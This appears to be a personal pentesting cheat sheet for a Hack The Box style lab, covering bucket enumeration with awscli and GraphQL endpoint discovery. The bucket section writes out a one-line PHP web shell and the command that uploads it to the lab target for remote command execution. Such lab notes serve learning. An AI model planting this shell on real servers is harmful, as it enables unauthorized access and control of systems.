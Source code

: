 # Web Application

## Amazon Buckets

The are different types of subdomains, for example `s3.` are amazon buckets subdomains on the cloud. Always add the subdomains to the `/ets/hosts/` file next to the domain..

Use `awscli` to interact with them. 

To list the buckets:
`aws --endpoint=http://s3.thetoppers.htb s3 ls`

To list the objects inside the buckets just specify the bucket at the end of the previous command:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

If php files are shown, it means that the bucket is handling the php page. Thus creating an appropriate php file and coping it in the bucket, will open a shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

## APIs

##### **Web Services (SOAP/XML)**

##### REST APIs

API with multiple endpoints

##### GraphQL

By **default** graphQL does **not** implement authentication, has a **single endpoint**.

- **Endpoint discovery:**
	```bash
	python3 ~/TOOLS/graphw00f/main.py -d -f -t [URL]
	```

  - Send an universal query (with param `'{"query":"query { __typename }"}'` to:

  	- */graphql*

  	- */graphiql*

  	- */graphql.php*

  	- */graphql/console*

  	- appending `/v1` to the path

  - Usually they only accept POST requests that have a content-type of `application/json`, but also GET or `x-www-form-urlencoded` can work.
